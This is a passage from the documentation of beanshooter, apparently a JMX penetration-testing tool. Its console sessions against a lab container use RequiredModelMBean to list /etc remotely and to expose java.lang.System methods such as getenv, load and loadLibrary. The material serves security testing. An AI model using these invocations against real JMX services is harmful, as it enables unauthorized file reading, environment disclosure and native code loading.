 ```console
media
sbin
sys
.dockerenv
```

The `setManagedResource` method is always available and can be used to change the object instance to operate on:

```console
[qtc@devbox ~]$ beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'setManagedResource(Object a, String b)' 'new java.io.File("/etc")' objectReference
[+] Call was successful.
[qtc@devbox ~]$ beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
passwd
shells
opt
modules
mtab
issue
inittab
hosts
...
```

When invoking *static* methods, an object instance is also required. However, the actual class of the object instance does
not matter. E.g. if you want to invoke `getProperties()` from `java.lang.System`, you could also use a simple `String`
as object instance. Only the specified class name matters in this case:

```console
[qtc@devbox ~]$ beanshooter model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.lang.System '"does not matter"'
[+] Deploying RequiredModelMBean supporting methods from java.lang.System
[+]
[+] 	Deplyoing MBean: RequiredModelMBean
[+] 	MBean with object name de.qtc.beanshooter:version=1 was successfully deployed.
[+]
[+] 	Available Methods:
[+] 	  - void runFinalization()
[+] 	  - java.lang.String setProperty(java.lang.String, java.lang.String)
[+] 	  - java.lang.String getProperty(java.lang.String)
[+] 	  - java.lang.String getProperty(java.lang.String, java.lang.String)
[+] 	  - long currentTimeMillis()
[+] 	  - long nanoTime()
[+] 	  - java.lang.SecurityManager getSecurityManager()
[+] 	  - void loadLibrary(java.lang.String)
[+] 	  - java.lang.String mapLibraryName(java.lang.String)
[+] 	  - void load(java.lang.String)
[+] 	  - java.lang.String lineSeparator()
[+] 	  - java.io.Console console()
[+] 	  - java.nio.channels.Channel inheritedChannel()
[+] 	  - java.util.Properties getProperties()
[+] 	  - void setProperties(java.util.Properties)
[+] 	  - java.lang.String clearProperty(java.lang.String)
[+] 	  - java.util.Map getenv()
[+] 	  - java.lang.String getenv(java.lang.String)
[+] 	  - void gc()
[+] 	  - void wait()
[+] 	  - java.lang.String toString()
[+] 	  - int hashCode()
[+] 	  - java.lang.Class getClass()
[+] 	  - void notify()
```
